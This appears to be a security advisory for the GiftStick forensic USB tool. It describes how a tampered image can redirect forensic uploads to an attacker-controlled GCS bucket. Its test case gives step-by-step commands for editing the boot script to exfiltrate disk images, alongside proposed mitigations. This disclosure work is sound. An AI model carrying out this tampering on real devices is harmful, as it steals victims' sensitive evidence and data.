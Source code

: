 ### Vulnerability List

- Vulnerability Name: GCS Bucket Destination Manipulation
- Description:
    1. An attacker creates a modified GiftStick USB drive, starting from a legitimate GiftStick image.
    2. The attacker mounts the GiftStick image file (e.g., `giftstick.img`).
    3. Within the mounted image, the attacker navigates to the user's home directory (e.g., `/mnt/upper/home/xubuntu/`).
    4. The attacker modifies the `call_auto_forensicate.sh` script.
    5. Inside `call_auto_forensicate.sh`, the attacker changes the `GCS_REMOTE_URL` variable to point to a GCS bucket under their control (e.g., `gs://attacker-bucket/evil_evidence/`). Alternatively, they could modify the command-line arguments passed to `auto_forensicate.py` to change the destination URL.
    6. The attacker unmounts the modified GiftStick image.
    7. The attacker then uses social engineering to trick a victim into booting a target system with this malicious GiftStick.
    8. When the target system boots from the malicious GiftStick, `call_auto_forensicate.sh` is executed.
    9. The `auto_forensicate.py` script, as called by the modified `call_auto_forensicate.sh`, uploads the collected forensic evidence to the attacker-specified GCS bucket (`gs://attacker-bucket/evil_evidence/`) instead of the intended secure bucket.
- Impact:
    - Confidentiality breach: Sensitive forensic data collected from the target system, which could include disk images, system information, and firmware, is exfiltrated to a storage location controlled by the attacker.
    - Loss of evidence integrity: The intended recipient of the forensic data does not receive it, hindering legitimate forensic investigation processes.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None. The project currently lacks any implemented mechanisms to prevent modification of the bootable image or to verify the integrity of the scripts within a potentially rogue GiftStick.
- Missing Mitigations:
    - **Integrity Checks:** Implement integrity checks for critical scripts like `call_auto_forensicate.sh` and `auto_acquire.py` within the GiftStick image. This could involve checksums or cryptographic hashes to detect unauthorized modifications.
    - **Digital Signatures:** Digitally sign the GiftStick image. This would allow users to verify the authenticity and integrity of the GiftStick before use, ensuring it hasn't been tampered with.
    - **Read-Only File System:** Mount the partition containing critical scripts as read-only in the bootable image. This would prevent attackers from easily modifying these scripts post-image creation.
- Preconditions:
    - An attacker must be able to create a modified GiftStick image. This requires technical skills to modify ISO images and potentially some understanding of Linux systems.
    - The attacker must successfully employ social engineering to convince a user to boot a target system using the malicious GiftStick. This is the primary attack vector as described in the project documentation.
- Source Code Analysis:
    - `tools/remaster_scripts/call_auto_forensicate.sh`:
        ```bash
        #!/bin/bash
        # ...
        source config.sh
        # ...
        sudo "${AUTO_FORENSIC_SCRIPT_NAME}" \
          --gs_keyfile="${GCS_SA_KEY_FILE}" \
          --logging stdout \
          --logging stackdriver \
          --log_progress \
          --acquire all \
          ${EXTRA_OPTIONS} "${GCS_REMOTE_URL}/"
        ```
        This script directly uses the `GCS_REMOTE_URL` variable sourced from `config.sh` as the destination URL for the `auto_forensicate.py` script. An attacker modifying this script can easily change the destination.
    - `config.sh`:
        ```bash
        AUTO_FORENSIC_SCRIPT_NAME="${AUTO_FORENSIC_SCRIPT_NAME}"
        GCS_SA_KEY_FILE="/home/${GIFT_USERNAME}/${GCS_SA_KEY_NAME}"
        GCS_REMOTE_URL="${GCS_REMOTE_URL}"
        ```
        This file stores configuration variables, including `GCS_REMOTE_URL`. While intended to be configured during the image creation process, it resides within the writable partition of the GiftStick image and is therefore modifiable by an attacker.
    - `auto_forensicate/auto_acquire.py`:
        ```python
        # ...
        parser.add_argument(
            'destination', action='store',
            help=(
                'Sets the destination for uploads. '
                'For example gs://bucket_name/path will upload to GCS in bucket '
                '<bucket_name> in the folder </path/>')
        )
        # ...
        options = parser.parse_args(args)
        # ...
        self._uploader = self._MakeUploader(options)
        ```
        The `auto_acquire.py` script takes the destination URL as a command-line argument (`options.destination`) without any validation against a pre-defined secure destination. This allows the script to upload data to any URL provided, including an attacker's bucket if the URL is modified in the calling script.

- Security Test Case:
    1. **Setup Attacker-Controlled Bucket:** Create a GCS bucket named `attacker-giftstick-bucket` (or any name you control) within your Google Cloud project.
    2. **Create Legitimate GiftStick Image:**
        - Follow the instructions in `README.md` to create a legitimate GiftStick image using `tools/remaster.sh`. Use your own GCP project and a legitimate GCS bucket (e.g., `giftstick-test-bucket`) for testing. Let's assume the generated image is `giftstick.img`.
    3. **Mount GiftStick Image:** Mount the `giftstick.img` image to a temporary mount point (e.g., `/mnt`).
        ```bash
        sudo mount -o loop giftstick.img /mnt
        ```
    4. **Modify `call_auto_forensicate.sh`:**
        - Navigate to the user's home directory in the mounted image: `/mnt/upper/home/xubuntu/`.
        - Edit the `call_auto_forensicate.sh` script using a text editor (e.g., `sudo nano call_auto_forensicate.sh`).
        - Find the line that defines or uses `GCS_REMOTE_URL` or the command that calls `auto_forensicate.py`.
        - Modify the destination URL to your attacker-controlled bucket, `gs://attacker-giftstick-bucket/evil_evidence/`. For example, change the line to:
          ```bash
          GCS_REMOTE_URL="gs://attacker-giftstick-bucket/evil_evidence/"
          ```
        - Save the changes and exit the text editor.
    5. **Unmount GiftStick Image:** Unmount the GiftStick image.
        ```bash
        sudo umount /mnt
        ```
    6. **Boot Target System with Malicious GiftStick:**
        - Prepare a test system (virtual machine or physical machine).
        - Boot the test system from the modified `giftstick.img` USB drive.
        - Allow the GiftStick to boot and the acquisition process to run automatically.
    7. **Verify Data Exfiltration:**
        - After the acquisition process completes (or appears to complete), check the attacker-controlled GCS bucket (`gs://attacker-giftstick-bucket/evil_evidence/`).
        - You should find the forensic evidence files (e.g., `stamp.json`, `system_info.txt`, `Disks/sda.image`, etc.) uploaded to the attacker-controlled bucket, confirming successful data exfiltration.
    8. **Check Intended Bucket (Optional):** Verify that the originally intended legitimate GCS bucket (`giftstick-test-bucket`) does *not* contain the forensic evidence, further confirming the redirection.